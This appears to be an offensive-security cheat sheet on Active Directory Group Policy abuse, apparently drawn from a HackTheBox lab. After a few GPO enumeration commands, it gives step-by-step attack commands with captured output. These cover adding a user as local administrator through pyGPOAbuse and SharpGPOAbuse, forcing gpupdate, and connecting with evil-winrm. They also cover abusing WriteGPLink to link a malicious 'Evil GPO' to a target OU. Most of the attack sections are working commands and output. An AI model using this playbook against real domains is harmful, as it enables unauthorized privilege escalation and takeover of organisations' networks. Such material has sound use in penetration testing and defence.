 ```yaml
---
title: "GPOs"
date: 2025-3-16
tags: ["GPOs", "Windows", "Group Policy Objects", "WriteGPLink"]
---
```


### General

#### 1. Install GPMC \[Optional\]

```console
# Runas Administrator
Install-WindowsFeature GPMC
```

```console {class="sample-code"}
PS C:\Windows\system32> Install-WindowsFeature GPMC
Install-WindowsFeature GPMC

Success Restart Needed Exit Code      Feature Result                           
------- -------------- ---------      --------------                           
True    No             Success        {Group Policy Management}                
```

#### 2. List GPOs Name

```console
# List all GPOs
Get-GPO -All | Select-Object DisplayName
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName

DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPO
```

```console
# Check GPO by name
Get-GPO -Name '<GPO_NAME>'
```

```console
# Generate XML report
Get-GPOReport -Name '<GPO_NAME>' -ReportType XML
```

```console
# Generate pretty HTML report
Get-GPOReport -Name '<GPO_NAME>' -ReportType HTML -Path "C:\ProgramData\GPOReport.html"
```

---

### Abuse #1: Add Local Admin

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Add Local Admin

```console
# GPO ID from dn of Deafult Domina Policy
python3 pygpoabuse.py <DOMAIN>/<USER>:<PASSWORD> -gpo-id '<GPO_ID>'
```

```console {class="sample-code"}
$ python3 pygpoabuse.py example.com/GPOADM:TestTest -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' 
SUCCESS:root:ScheduledTask TASK_2300c834 created!
[+] ScheduledTask TASK_2300c834 created!
```

#### 2. Force Reload

```console
gpupdate /force
```

```console {class="sample-code"}
PS C:\programdata> gpupdate /force
gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

#### 3. Check

```console
net localgroup administrators
```

```console {class="sample-code"}
PS C:\programdata> net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
john
The command completed successfully.
```

#### 4. Winrm

```console
evil-winrm -i <TARGET_DOMAIN> -u john -p 'H4x00r123..'
```

<small>*Ref: [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Add Local Admin

```console
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USER>' --GPOName '<GPO_NAME>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount 'HHogan' --GPOName 'Default Domain Policy'
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

#### 2. Force Reload

```console
gpupdate /force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.

*Evil-WinRM* PS C:\Users\HHogan\Documents> net user HHogan
User name                    HHogan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/6/2023 11:59:34 AM
Password expires             Never
Password changeable          5/7/2023 11:59:34 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/10/2023 5:30:58 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>

{{< /tabcontent >}}

---

### Abuse #2: WriteGPLink

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Create a New GPO

```console
New-GPO -Name "Evil GPO"
```

#### 2. Link to Target

```console
Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=<TARGET>,DC=<DOMAIN>,DC=<COM>"
```

#### 3. Add Local Admin

```console
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount '<USER>' --GPOName 'Evil GPO'
```

#### 4. Force Reload

```console
gpupdate /force
```

#### 5. Check

```console
net user '<USER>'
```

{{< /tabcontent >}}